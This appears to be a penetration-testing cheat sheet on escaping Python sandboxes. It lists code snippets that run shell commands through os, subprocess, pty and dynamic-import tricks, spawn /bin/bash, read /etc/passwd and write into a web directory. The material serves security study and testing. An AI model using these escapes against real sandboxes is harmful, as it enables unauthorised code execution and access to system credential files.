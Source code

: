 # Bypass Python sandboxes

These are some tricks to bypass python sandbox protections and execute arbitrary commands.

## Command Execution Libraries

The first thing you need to know is if you can directly execute code with some already imported library, or if you could import any of these libraries:

```python
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.os.system("ls")
pdb.os.system("ls")

#Import functions to execute commands
importlib.import_module("os").system("ls")
importlib.__import__("os").system("ls")
imp.load_source("os","/usr/lib/python3.8/os.py").system("ls")
imp.os.system("ls")
imp.sys.modules["os"].system("ls")
sys.modules["os"].system("ls")
__import__("os").system("ls")
import os
from os import *

#Other interesting functions
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')

#In Python2.7
execfile('/usr/lib/python2.7/os.py')
system('ls')
```

Remember that the _**open**_ and _**read**_ functions can be useful to **read files** inside the python sandbox and to **write some code** that you could **execute** to **bypass** the sandbox.

{% hint style="danger" %}
**Python2 input()** function allows to execute python code before the program crashes.
{% endhint %}

Python try to **load libraries from the current directory first** (the following command will print where is python loading modules from): `python3 -c 'import sys; print(sys.path)'`
